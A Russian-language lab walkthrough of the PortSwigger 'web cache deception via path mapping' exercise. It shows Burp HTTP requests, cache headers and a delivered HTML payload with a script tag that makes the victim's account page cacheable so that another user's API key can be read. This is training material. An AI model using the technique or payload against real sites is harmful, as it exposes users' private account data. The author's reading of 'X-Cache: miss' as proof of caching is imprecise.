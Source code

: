 ```yaml
---
title: "Exploiting path mapping for web cache deception"
date: 2025-07-31
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/web-cache-deception/wcd-using-path-mapping-discrepancies/web-cache-deception/lab-wcd-exploiting-path-mapping"
classes: wide
---
```


Для прохождения лабы нужно найти `API`-ключи пользователя `carlos` с помощью **Web cache deception**. 

Для входа в свою учетную запись можно использовать креды `wiener`:`peter`.

```
https://0a4a00610336ce2980e930f900af00b2.web-security-academy.net/
```

## Solution

Для начала зайду в свой аккаунт:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/1.png){: height="200" .align-center}

Аккаунт находится на ендпоинте `/my-account`. Попробую добавить рандомный путь `/foo`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/2.png){: height="200" .align-center}

Ответ остался тем же. Перейду в `Burp Suite`, чтобы посмотреть на заголовки запросов:

```http
GET /my-account/foo HTTP/2
Host: 0a4a00610336ce2980e930f900af00b2.web-security-academy.net
Cookie: session=cpyLVwGogGdTEue1LibfmS6nckRPPupq
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Попробую добавить расширение `.js`, чтобы проверить, будет ли кэширован ответ:

```http
GET /my-account/foo.js HTTP/2
Host: 0a4a00610336ce2980e930f900af00b2.web-security-academy.net
Cookie: session=cpyLVwGogGdTEue1LibfmS6nckRPPupq
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: traile
```

Ответ:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 3824

...

```

В ответе можно увидеть поля `X-Cache: miss` и `Age: 0`. Это означает, что мой запрос был кэширован. Теперь создам эксплойт, который отправим жертве. Для этого мне нужно перейти на выданный `Port Swigger Academy` эксплойт сервер.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/3.png){: height="200" .align-center}

А теперь подробнее. Данная ссылка будет отправлена жертве:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/4.png){: height="200" .align-center}

Тут можно увидеть имя файла, котрый будет скачан жертвой. И то, какой ответ на данный запрос будет получен. В данном примере я решил отправить `.html` файл, в котором содержится `js` скрипт `<script src='https://0a4a00610336ce2980e930f900af00b2.web-security-academy.net/my-account/secondtry.js'></script>`. Путь файла заканчивается на `/secondtry.js`. На данный запрос жертва получит страницу своего аккаунта, которая будет кэширована. А значит, я смогу получить доступ к информации из аккаунта. По имени файла `secondtry.js` можно понять, что получилось у меня это не с первой попытки...

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/5.png){: height="200" .align-center}

Итак. Клацаю кнопку ~~взломать все и вся~~ `Deliver exploit to victim`. Далее пробую перейти по ссылке `https://0a4a00610336ce2980e930f900af00b2.web-security-academy.net/my-account/secondtry.js`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/6.png){: height="200" .align-center}

Пуф, и `API`-ключ получен. Сдам его... верификатору.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/7.png){: height="200" .align-center}
